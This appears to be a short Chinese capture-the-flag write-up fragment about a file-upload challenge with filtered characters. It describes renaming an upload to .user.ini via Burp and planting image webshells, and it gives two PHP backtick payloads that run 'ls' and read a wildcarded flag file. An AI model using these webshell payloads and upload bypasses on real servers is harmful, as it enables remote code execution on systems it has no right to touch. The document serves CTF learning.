 这题又过滤了{}花括号，分号，'log'。思路还和上面一样，不过变成了RCE类型的题目了

还是正常上传.user.png文件，bp抓包把文件名改成.user.ini。接着处理图片马

```php
<?=`ls /var/www/html`?>
```

现在直接使用反引号执行命令，没有分号用?>强制闭合

![ls](/medias/show-upload/11.png)

每个马执行一条命令，过滤了'php'，用统配符处理

```php
<?=`tac /var/www/html/f*`?>
```

![tac](/medias/show-upload/12.png)
